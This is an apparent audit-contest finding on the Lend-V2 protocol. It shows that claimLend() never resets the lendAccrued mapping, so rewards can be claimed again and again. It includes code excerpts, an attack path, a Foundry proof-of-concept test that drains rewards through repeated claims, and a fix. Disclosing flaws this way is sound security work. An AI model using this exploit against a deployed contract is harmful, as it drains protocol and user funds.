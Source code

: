 Fierce Eggplant Dalmatian

High

# `claimLend` function fails to update accrued lend leading to funds loss

## Title
`claimLend` function fails to update accrued lend leading to funds loss

## Summary
The `claimLend()` function fails to reset the `lendAccrued` mapping after tokens are distributed. This allows users to repeatedly claim previously accrued rewards, effectively stealing tokens from the protocol.

## Root Cause
The `lendAccrued` mapping is used to accumulate reward tokens for suppliers and borrowers based on interest index deltas. It is updated in the following functions:

1. [`distributeSupplierLend()`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/LendStorage.sol#L303-L335) function
  ```solidity
     function distributeSupplierLend(address lToken, address supplier) external onlyAuthorized {
        //...SNIP...
        // Update the accrued LEND for the account
        uint256 supplierAccrued = add_(lendAccrued[supplier], supplierDelta);
        lendAccrued[supplier] = supplierAccrued;
    }
  ```

2. [`distributeBorrowerLend()`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/LendStorage.sol#L342-L375) function
```solidity
    function distributeBorrowerLend(address lToken, address borrower) external onlyAuthorized {
        //...SNIP...
        uint256 borrowerAccrued = add_(lendAccrued[borrower], borrowerDelta);
        lendAccrued[borrower] = borrowerAccrued;
    }
```
These accrued tokens can later be claimed through the `claimLend()` function:

[`claimLend()`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L370-L408)

```solidity
  for (uint256 j = 0; j < holders.length;) {
      uint256 accrued = lendStorage.lendAccrued(holders[j]);
      if (accrued > 0) {
          grantLendInternal(holders[j], accrued);
      }
      unchecked { ++j; }
  }
```

Internally, [`grantLendInternal()`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L416-L425) transfers tokens to the user:
```solidity
  function grantLendInternal(address user, uint256 amount) internal returns (uint256) {
      address lendAddress = LendtrollerInterfaceV2(lendtroller).getLendAddress();
      uint256 lendBalance = IERC20(lendAddress).balanceOf(address(this));

      if (amount > 0 && amount <= lendBalance) {
  >>      // @audit Missing: lendAccrued[user] = 0;
          IERC20(lendAddress).safeTransfer(user, amount);
          return 0;
      }
      return amount;
  }
```
Nowhere in this claim flow is the `lendAccrued[user]` mapping reset to `0`, which means that users can repeatedly claim the same accrued amount.

### Internal Preconditions
1. User has accrued LEND rewards via `distributeSupplierLend()` or `distributeBorrowerLend()`.

### External Preconditions
1. User calls `claimLend()` via `CoreRouter`.

## Attack Path
1. User interacts with the protocol and accrues LEND rewards (e.g., by supplying or borrowing).
2. User calls `claimLend()`. The protocol transfers `lendAccrued[user]` tokens to the user but does not reset the mapping.
3. Because the mapping still holds the same value, the user can call `claimLend()` again and receive the same tokens repeatedly.
4. This can continue indefinitely or until the protocol's LEND token reserve is drained.

## Impact
Users can drain the protocol’s LEND reward pool by repeatedly claiming the same rewards due to the stale `lendAccrued` mapping. This results in unlimited, illegitimate LEND token claims and loss of user and protocol funds.


## POC
In `test/TestLendAccural.t.sol`, add the following test
```solidity
    function test_claimLend_fails_to_update_accrued_lend_leading_to_fund_loss() public {
        // Supply tokens with two users
        uint256 supplyAmount = 1000e18;
        (, address lToken) = _supply(supplyAmount, user2);
        _supply(supplyAmount, user1);

        // Advance time
        vm.warp(block.timestamp + 1 days);
        vm.roll(block.number + 1000);

        // Get initial LEND token balance
        address lendToken = lendtroller.getLendAddress();
        uint256 initialBalance = IERC20(lendToken).balanceOf(user1);

        // Record accrued LEND before claiming
        vm.startPrank(user1);
        address[] memory holders = new address[](1);
        holders[0] = user1;
        LToken[] memory lTokenArray = new LToken[](1);
        lTokenArray[0] = LToken(lToken);

        // first claim
        coreRouter.claimLend(holders, lTokenArray, false, true);

        uint256 lendAccrued = lendStorage.lendAccrued(user1);

        uint256 currentBalance = IERC20(lendToken).balanceOf(user1);

        // Verify claimed amount matches accrued amount
        assertEq(currentBalance - initialBalance, lendAccrued);

        // second claim immediately
        coreRouter.claimLend(holders, lTokenArray, false, true);

        uint256 finalBalance = IERC20(lendToken).balanceOf(user1);

        // assert user has twice the balance
        assertEq(finalBalance, 2 * currentBalance);
        vm.stopPrank();
    }
```

## Mitigation
Reset the lend accrued of a user before transferring Lend tokens to the user